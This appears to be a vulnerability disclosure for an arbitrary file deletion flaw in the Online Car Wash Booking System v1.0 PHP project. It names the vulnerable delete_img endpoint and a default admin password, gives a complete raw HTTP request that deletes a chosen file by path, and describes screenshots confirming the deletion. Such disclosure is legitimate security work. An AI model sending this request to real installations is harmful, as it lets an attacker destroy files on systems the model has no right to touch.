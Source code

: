 # Online Car Wash Booking System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/classes/Master.php?f=delete_img

Vulnerability location: /ocwbs/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shel.php file in the root directory

```sql
POST /ocwbs/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ocwbs/admin/?page=system_info
Content-Length: 46
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Focwbs%2Fshell.php
```
At present, the shell.php file is still in the root directory of the website, when we send a request to delete the shell.php file

![image](https://user-images.githubusercontent.com/54017627/169308301-d83d3861-6e30-4db9-8333-ddb0da7337f0.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/169308039-7c2875ed-68a1-4743-ba2a-341cfc3039c4.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/169308176-f522abcb-e4cc-4731-8239-1f888bec675c.png)
